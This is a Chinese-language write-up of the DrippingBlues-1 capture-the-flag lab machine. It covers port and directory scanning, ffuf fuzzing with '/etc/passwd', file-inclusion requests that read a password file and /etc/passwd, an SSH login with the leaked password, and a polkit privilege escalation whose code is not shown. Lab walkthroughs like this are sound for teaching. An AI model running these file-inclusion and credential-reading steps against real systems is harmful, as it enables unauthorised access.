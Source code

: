 # DrippingBlues-1

## 目录

[TOC]

---

## 主机探测

### nmap扫描

```shell
# nmap -n 192.168.1.1-255

Nmap scan report for 192.168.1.237
Host is up (0.00018s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:1B:B4:6D (VMware)
```

扫描发现一台可疑的主机，开放了http服务，访问查看

![image-20230 601132042597](https://raw.githubusercontent.com/Mu-cream/image/master/image-20230601132042597.png)

#### 发现目标

确认是目标机器，IP为 `192.168.1.237`，开放端口服务`21:FTP、22:SSH、80:HTTP`

---

## 信息收集

### 网站目录扫描

```shell
# dirb http://192.168.1.237/
-----------------
DIRB v2.22    
By The Dark Raver
-----------------
START_TIME: Thu Jun  1 03:46:42 2023
URL_BASE: http://192.168.1.237/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://192.168.1.237/ ----
+ http://192.168.1.237/index.php (CODE:200|SIZE:138)
+ http://192.168.1.237/robots.txt (CODE:200|SIZE:78)
+ http://192.168.1.237/server-status (CODE:403|SIZE:278)
-----------------
END_TIME: Thu Jun  1 03:46:45 2023
DOWNLOADED: 4612 - FOUND: 3
```

发现可疑文件`robots.txt`，尝试访问

```html
User-agent: *
Disallow: /dripisreal.txt
Disallow: /etc/dripispowerful.html
```

尝试访问`/dripisreal.txt`

```html
hello dear hacker wannabe,

go for this lyrics:

https://www.azlyrics.com/lyrics/youngthug/constantlyhating.html

count the n words and put them side by side then md5sum it

ie, hellohellohellohello >> md5sum hellohellohellohello

it's the password of ssh
```

给出了一个绝对路径，推测有文件包含漏洞

#### 使用【Ffuf】爆破参数名

```shell
# ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.1.237/index.php?FUZZ=/etc/passwd -ic -c -r -fs 138

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.1.237/index.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 138
________________________________________________

[Status: 200, Size: 3032, Words: 50, Lines: 58, Duration: 6ms]
    * FUZZ: drip

:: Progress: [220547/220547] :: Job [1/1] :: 4255 req/sec :: Duration: [0:00:53] :: Errors: 0 ::
```

爆破得到参数名`drip`

### 尝试弱/空口令，匿名访问

![image-20230601155107008](https://raw.githubusercontent.com/Mu-cream/image/master/image-20230601155107008.png)

FTP直接访问成功,得到一个加密的zip文件，使用工具暴力破解出密码`072528035`，得到txt内容`just focus on “drip”`，与上面爆破出的参数名对应

---

## 漏洞探测/利用【获得SSH密码】

得知`index.php`参数名为`drip`，结合已知绝对路径`/etc/dripispowerful.html`尝试访问`http://192.168.1.237/index.php?drip=/etc/dripispowerful.html`，得到密码如下

```html
password is:
imdrippinbiatch
```

继续通过文件包含查看`/etc/passwd`查看可用用户名，找到以下内容

```shell
thugger:x:1001:1001:,,,:/home/thugger:/bin/bash
```

ssh远程连接成功

```shell
┌──(root㉿kali)-[/]
└─# ssh thugger@192.168.1.237  
thugger@192.168.1.237's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.11.0-34-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

495 updates can be installed immediately.
233 of these updates are security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
New release '22.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Thu Jun  1 11:12:27 2023 from 192.168.1.232
thugger@drippingblues:~$ 

```

---

## 提权

查看系统进程，发现权限审核工具`polkit`

```shell
thugger@drippingblues:~$ ps -aux |grep root
root         711  0.0  0.2 239116 11752 ?        Ssl  07:43   0:00 /usr/lib/policykit-1/polkitd --no-debug
```

在Github上搜索`polkit exploit`，找到pwn脚本，运行后成功提权至root

`flag:78CE377EF7F10FF0EDCA63DD60EE63B8`

---

## 总结

- 拿到ftp，别犹豫，试试它

